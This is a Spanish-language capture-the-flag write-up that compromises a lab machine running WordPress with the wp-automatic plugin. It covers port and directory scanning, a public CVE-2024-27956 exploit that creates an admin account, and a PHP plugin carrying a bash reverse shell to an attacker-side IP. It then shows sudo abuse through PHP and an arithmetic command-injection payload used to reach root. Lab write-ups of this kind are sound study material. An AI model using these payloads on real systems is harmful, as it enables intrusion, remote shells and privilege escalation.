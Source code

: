 # Maquina Master

Lo primero que deberemos de hacer será escanear los posibles puertos que se encuentre abiertos en la máquina:

```shell 
nmap -p- --open -sS -sC -sV -vvv --min-rate 5000 -Pn 172.17.0.2
```
![NMAP](https://github.com/Isma-yo/photos/blob/main/Master/foto.png)

Vemos que únicamente tiene abierto un puerto, el 80, por lo que vamos a ver que hay en la página web:

![HOME](https://github.com/Isma-yo/photos/blob/main/Master/foto2.png)

No hay mucha cosa interesante, en el código fuente tampoco encontramos nada, sin embargo, podemos observar en la parte de abajo que nos dice que está utilizando wp-automatic 3.92.0, tendremos esto en cuenta ya que nos servirá en un futuro. Al no encontrar nada relevante realizaremos fuzzing web con gobuster:

```shell 
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt
```

![GOBUSTER](https://github.com/Isma-yo/photos/blob/main/Master/foto3.png)

Vemos que cuenta con un wordpress (lo podíamos deducir por el wp-automatic de antes también). Si nos poníamos encima de alguno de los diferentes cursos que había veíamos que había un usuario “Mario”, por lo que lo normal sería intentar obtener su contraseña y entrar al panel de administración de Wordpress, os adelanto que no es la solución ya que lo intente y no conseguí obtener su contraseña.

Ahora es cuando entra en juego el wp-automatic de antes, si buscamos información acerca de esta versión en google acompañado de la palabra exploit vemos esto:

![WEB](https://github.com/Isma-yo/photos/blob/main/Master/foto4.png)

https://thehackernews.com/2024/04/hackers-exploiting-wp-automatic-plugin.html

Si accedemos a la web vemos que aparece un CVE que puede que podamos utilizar:

![WEB2](https://github.com/Isma-yo/photos/blob/main/Master/foto5.png)

Si buscamos el CVE en Google vemos que hay un exploit en github, así que vamos a probar si funciona:

https://github.com/diego-tella/CVE-2024-27956-RCE

Si seguimos los pasos que nos indica vemos que tras ejecutar el exploit nos crea un usuario con nombre “eviladmin” y con contraseña “admin”:

![CVE](https://github.com/Isma-yo/photos/blob/main/Master/foto6.png)

Intentamos acceder con el usuario que nos ha creado el exploit y ole, ya estamos dentro del panel de administración. Ahora vamos a intentar subir una reverse shell en forma de plugin:

![WP](https://github.com/Isma-yo/photos/blob/main/Master/foto7.png)

![WP2](https://github.com/Isma-yo/photos/blob/main/Master/foto8.png)

Una vez aquí vemos que unicamente nos deja subir archivos con extensión .zip, por lo que vamos a investigar como poder subir una reverse shell en .zip a un wordpress:

![WEB3](https://github.com/Isma-yo/photos/blob/main/Master/foto9.png)

https://sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell

Dentro de la página copiamos el contenido que nos pone y lo metemos en un fichero con nombre reverse.php (puedes poner el que quieras).

```shell
<?php
/**
* Plugin Name: Reverse Shell Plugin
* Plugin URI:
* Description: Reverse Shell Plugin
* Version: 1.0
* Author: Vince Matteo
* Author URI: http://www.sevenlayers.com
*/
exec("/bin/bash -c 'bash -i >& /dev/tcp/172.17.0.1/443 0>&1'");
?>
```

![ZIP](https://github.com/Isma-yo/photos/blob/main/Master/foto10.png)

Una vez tenemos el archivo en .zip vamos a intentar subirlo a ver que ocurre:

![PLUGIN](https://github.com/Isma-yo/photos/blob/main/Master/foto11.png)

Vemos que se ha subido correctamente y que nos da la opción de activarlo, antes de activarlo debemos de ponernos en escucha por el puerto que hayamos configurado para poder recibir la reverse shell:

![PLUGIN](https://github.com/Isma-yo/photos/blob/main/Master/foto12.png)

Ya estamos dentro de la máquina, por lo que primero que debermeos de hacer será realizar un tratamiento de la tty:

```shell
script /dev/null -c bash
```

```shell
Control Z
```

```shell
stty raw -echo; fg
```

```shell
reset xterm
```

```shell
export TERM=xterm
```

```shell
export SHELL=bash
```

Si ejecutamos el comando sudo -l vemos que podemos ejecutar php como el usuario pylon, por lo que vamos a buscar como hacerlo en GTFOBins:

https://gtfobins.github.io/gtfobins/php/#sudo

```shell
sudo -u pylon php -r "system('/bin/bash');"
```

Una vez lo ejecutamos nos convertimos en el usuario pylon, ahora repetimos el proceso y vemos que podemos ejecutar un script como el usuario “mario”. Este script nos pide introducir un parámetro, por lo que podemos intentar introducir un /bin/bash para ver si obtenemos la bash como el usuario mario:

```shell
a[$(/bin/bash >&2)]
```
![EP](https://github.com/Isma-yo/photos/blob/main/Master/foto13.png)

Y ahí esta, somos el usuario mario. Ahora si ejecutamos de nuevo sudo -l vemos que podemos ejecutar otro script como root, ese script también nos pide un parámetro por lo que vamos a intentar reutilizar lo mismo que hemos hecho antes para obtener la escalada:

![EP2](https://github.com/Isma-yo/photos/blob/main/Master/foto14.png)
